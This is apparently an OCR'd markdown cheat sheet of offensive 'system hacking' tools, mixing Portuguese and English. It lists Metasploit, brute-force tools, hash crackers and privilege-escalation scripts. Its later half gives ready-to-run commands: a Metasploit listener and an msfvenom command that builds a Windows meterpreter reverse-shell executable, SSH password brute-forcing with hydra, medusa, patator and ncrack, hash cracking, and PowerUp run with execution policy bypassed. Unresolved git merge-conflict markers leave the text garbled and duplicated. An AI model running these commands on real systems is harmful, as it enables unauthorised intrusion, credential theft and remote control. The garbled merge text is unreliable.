  System Hacking Tools

# Exploitation Frameworks
=======
 Exploitation Frameworks
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

 Metasploit
- msfconsole: Console principal
- msfvenom: Gerador de payloads
- meterpreter: Shell avançado

 Exploit-DB
- searchsploit: Pesquisa exploits locais
- exploit-db: Base de dados online

<<<<<<< HEAD
# Password Attacks

Brute Force
- hydra: Brute force multi-protocolo
- john: John the Ripper

Hash Cracking
- hashcat: GPU hash cracking

# Privilege Escalation

Linux
- linpeas: Enumeração automática
=======
Password Attacks

Brute Force
- hydra: Brute force multi-protocolo
- medusa: Brute force paralelo
- patator: Brute force modular
- ncrack: Brute force de rede

Hash Cracking
- john: John the Ripper
- hashcat: GPU hash cracking
- ophcrack: Rainbow tables

Privilege Escalation

Linux
- linpeas: Enumeração automática
- linenum: Script de enumeração
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851
- linux-exploit-suggester: Sugestões de exploits

Windows
- winpeas: Enumeração Windows
- windows-exploit-suggester: Sugestões de exploits
- powerup: PowerShell privilege escalation

<<<<<<< HEAD

# Exploit Database
=======
System Hacking Tools

Exploitation Frameworks

Metasploit Framework

* `msfconsole`
  ↳ Main interactive console
* `msfvenom`
  ↳ Payload generation tool
* Meterpreter
  ↳ Powerful post-exploitation shell

Useful Metasploit Commands:

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit

Payload Generation with msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f exe -o payload.exe

Exploit Databases
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

* `searchsploit keyword`
  ↳ Search local Exploit-DB mirror
* [exploit-db.com](https://www.exploit-db.com)
  ↳ Online exploit database
<<<<<<< HEAD
=======

Password Attacks

Brute Force Tools

* `hydra`
  ↳ Fast, protocol-aware brute forcer

  
  hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://target
  
* `medusa`
  ↳ Parallel brute force, supports many protocols

  
  medusa -h target -u user -P wordlist.txt -M ssh
  
* `patator`
  ↳ Modular brute-forcer with advanced options

  
  patator ssh_login host=target user=admin password=FILE0 0=wordlist.txt
  
* `ncrack`
  ↳ High-performance network brute forcer from the Nmap team

  
  ncrack -p ssh target
  

Hash Cracking Tools

* `john` (John the Ripper)
  ↳ Fast CPU-based hash cracker

  
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  
  ↳ GPU-accelerated cracker

  
  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

  Common hash modes:

  * `0`: MD5
  * `100`: SHA1
  * `500`: MD5(Crypt)
  * `1000`: NTLM
* `ophcrack`
  ↳ Uses rainbow tables to crack Windows hashes

Privilege Escalation

Linux

* `linpeas.sh`
  ↳ Privilege escalation auditing (automated & colored)

  
  ./linpeas.sh
  
* `linenum.sh`
  ↳ Lightweight enumeration script

  
  ./linenum.sh
  
* `linux-exploit-suggester.sh`
  ↳ Suggests known privilege escalation exploits

  
  ./linux-exploit-suggester.sh
  

 Windows

* `winpeas.exe`
  ↳ Comprehensive privilege escalation enumeration

  powershell
  .\winpeas.exe
  
* `windows-exploit-suggester.py`
  ↳ Compares patches and suggests exploits

  
  python windows-exploit-suggester.py --database 2024-DB.csv --systeminfo systeminfo.txt
  
* `PowerUp.ps1`
  ↳ PowerShell-based enumeration

  powershell
  Import-Module .\PowerUp.ps1
  Invoke-AllChecks

Scripts & One-Liners

 Metasploit


msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit


 Payload Generation


msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f exe -o payload.exe


 Brute Force SSH


hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://target


 Hash Cracking


john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt


 Privilege Escalation Enumeration


# Linux
./linpeas.sh
./linenum.sh

# Windows
.\winpeas.exe
powershell -ep bypass -File .\PowerUp.ps1
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851
